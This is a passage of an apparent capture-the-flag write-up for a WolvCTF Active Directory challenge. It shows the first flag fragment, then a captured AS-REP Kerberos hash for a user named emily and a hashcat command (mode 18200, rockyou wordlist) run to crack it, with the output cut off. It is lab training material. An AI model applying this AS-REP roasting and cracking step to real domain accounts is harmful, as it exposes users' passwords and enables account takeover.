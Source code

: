 ![](Pasted_image_20250319004711.png)

Flag part 1:

```
wctf{asr3pr04st3d?_
```

---

## Flag Part 2: Enumerating Emily's account

Lets clean up the hash from before

```
$krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C78A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C36439CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DCAAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9CC65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED65C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023
```

and attempt to crack it with rockyou

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/scratch]
└─$ sudo hashcat -m 18200 asreproast.hash /usr/share/wordlists/rockyou.txt --force                         
[sudo] password for kali: 
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

...

```